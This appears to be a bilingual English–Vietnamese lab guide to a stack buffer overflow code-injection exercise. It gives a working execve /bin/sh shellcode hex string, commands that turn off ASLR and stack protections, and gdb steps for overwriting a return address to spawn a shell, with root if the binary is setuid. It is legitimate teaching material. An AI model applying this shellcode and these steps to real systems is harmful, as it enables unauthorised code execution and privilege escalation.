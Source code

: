 # Tips for code injection lab:
### Shellcode
1. Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)<br>
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
2. Run the following script to get the hex string of shellcode:<br>
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)<br>
`$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`<br>
or run this script to generate shellcode binary file:<br>
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)<br>
`$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;` <br>
3. Estimate buffer size *nnn* of vulnerable program with input strings of various length (eg. `./vuln.out $(python -c "print('a'*nnn)"`)<br>
(Ước lượng size *nnn* từ đỉnh stack đến eip khi biên dịch chương trình với option `-fno-stack-protector` khi gcc)<br>
4. Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.<br>
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)<br>
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>
### Conducting the attack
1. Load vuln.out in gdb <br>
(Nạp vuln.out trong gdb)<br>
`$> gdb vuln.out`<br>
2. Set break point after strcpy instruction <br>
(Đặt điểm dừng chương trình sau lệnh strcpy)<br>
3. Run program in gdb with injecting argument <br>
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)<br>
`(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`<br>
4. Watch the stack memory from esp (stack top):<br>
(Quan sát bộ nhớ stack từ esp)<br>
`(gdb-peda) x/80xb $esp`
5. Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with the value of esp<br>
(Xác định vị trí của địa chỉ trả về trong stack, thay thế `\xff\xff\xff\xff` với giá trị của esp)<br>
`set *<address of return address> = <address of esp>`<br>
6. Continue executing program, you should now in the new bash shell:<br>
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)<br>
`(gdb-peda) continue`<br>
`$_` <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  <br>
7. Return to gdb<br>
`$>exit`<br>
`(gdb-peda)`




